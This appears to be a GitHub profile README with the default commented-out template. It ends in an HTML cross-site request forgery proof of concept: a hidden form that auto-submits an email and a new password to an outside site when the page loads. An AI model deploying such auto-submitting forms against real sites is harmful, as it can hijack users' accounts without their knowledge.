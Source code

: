 ### Hi there 👋

<!--
**ethan-carlten/ethan-carlten** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->


<html>
  <body>
    <form action="https://heise.de" method="POST">
      <input type="hidden" name="email" value="me@mail.com" />
      <input type="hidden" name="new-password" value="Some Password" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
